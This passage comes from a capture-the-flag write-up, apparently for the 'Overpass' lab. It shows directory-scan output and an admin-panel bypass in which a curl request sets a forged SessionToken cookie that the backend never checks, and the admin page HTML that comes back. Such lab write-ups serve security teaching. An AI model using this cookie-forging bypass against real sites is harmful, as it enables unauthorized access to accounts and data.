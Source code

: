 ```bash
/main.js              (Status: 200) [Size: 28]                
                                                              
===============================================================
2021/05/19 23:57:57 Finished
===============================================================
```

![Overpass](Images/overpass-port80.png)

## Admin login

- By analysing the javascript files `login.js` and `cookie.js`, we find that a cookie named `SessionToken` being set on a successful login.
- If the cookie value is not being verified in the backend, then we'll be able to access the admin panel.
- So we can manually set the **SessionToken** cookie in the browser or just use `curl`:

```bash
$ curl http://10.10.123.199/admin/ --cookie "SessionToken=something"
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Overpass</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" type="text/css" media="screen" href="/css/main.css">
    <link rel="icon" 
      type="image/png" 
      href="/img/overpass.png" />
    <script src="/main.js"></script>
</head>

<body>
    <nav>
        <img class="logo" src="/img/overpass.svg" alt="Overpass logo">
        <h2 class="navTitle"><a href="/">Overpass</a></h2>
        <a href="/aboutus">About Us</a>
        <a href="/downloads">Downloads</a>
    </nav>
    <h1 class="pageHeading content">Welcome to the Overpass Administrator area</h1>
    <h3 class="subtitle content">A secure password manager with support for Windows, Linux, MacOS and more</h3>
    <div class="bodyFlexContainer content">
        <div>
            <p>Since you keep forgetting your password, James, I've set up SSH keys for you.</p>
```